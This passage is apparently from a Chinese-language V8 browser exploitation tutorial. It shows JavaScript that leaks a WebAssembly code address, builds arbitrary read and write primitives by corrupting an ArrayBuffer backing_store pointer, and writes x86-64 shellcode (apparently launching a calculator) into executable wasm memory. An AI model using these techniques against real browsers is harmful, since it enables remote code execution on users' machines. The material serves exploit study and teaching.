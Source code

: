 ```javascript
		break;
	}
}
var wasm_code_addr = f2i(float_array[float_obj_idx]) - 0x171n;
console.log("[+] wasm_code_addr: 0x"+hex(wasm_code_addr));
```

上述已经得到保存wasm 代码段地址的指针，接下来要构造任意读和任意写，读取该指针的内容，获取wasm 代码段的地址，并将shellcode写入wasm 代码段。

（3）通过覆盖data_buf 对象的backing_store 指针构造任意读和任意写

首先查找data_buf 对象的backing_store 指针位置，然后通过修改data_buf 对象的backing_store 指针，利用data_view.getFloat64和data_view.setUint8来实现任意读和任意写。

```javascript
var data_buf = new ArrayBuffer(0x200);
var data_view = new DataView(data_buf);
var float_buffer_idx = 0;
for(let i=0; i < 0x1000; i++)
{
	if(f2i(float_array[i]) == 0x200n){
		float_buffer_idx = i + 1;
		console.log("[+] find data_buf backing_store : 0x" + hex(f2i(float_array[float_buffer_idx])));
		break;
	}
}
function dataview_read64(addr)
{
	float_array[float_buffer_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}

function dataview_write(addr, payload)
{
	float_array[float_buffer_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}
```

（4）通过任意读获取wasm代码段的地址

```javascript
var wasm_code = dataview_read64(wasm_code_addr);
console.log("[+] wasm_code : 0x" + hex(wasm_code));
```

（5）将shellcode写入wasm，并调用wasm函数

```javascript
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_code, shellcode);
wasm_function();
```
